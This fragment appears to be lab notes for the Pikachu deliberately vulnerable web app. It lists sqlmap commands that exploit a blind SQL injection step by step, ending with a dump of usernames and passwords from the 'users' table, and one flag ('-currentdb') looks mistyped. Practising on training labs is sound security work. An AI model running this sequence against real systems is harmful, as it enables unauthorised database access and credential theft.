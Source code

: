 sqlmap -u "http://192.168.241.1/pikachu/vul/sqli/sqli_blind_b.php?name=d&submit=%E6%9F%A5%E8%AF%A2"
sqlmap -u "http://192.168.241.1/pikachu/vul/sqli/sqli_blind_b.php?name=d&submit=%E6%9F%A5%E8%AF%A2" -currentdb
sqlmap -u "http://192.168.241.1/pikachu/vul/sqli/sqli_blind_b.php?name=d&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables
sqlmap -u "http://192.168.241.1/pikachu/vul/sqli/sqli_blind_b.php?name=d&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns
sqlmap -u "http://192.168.241.1/pikachu/vul/sqli/sqli_blind_b.php?name=d&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C username,password --dump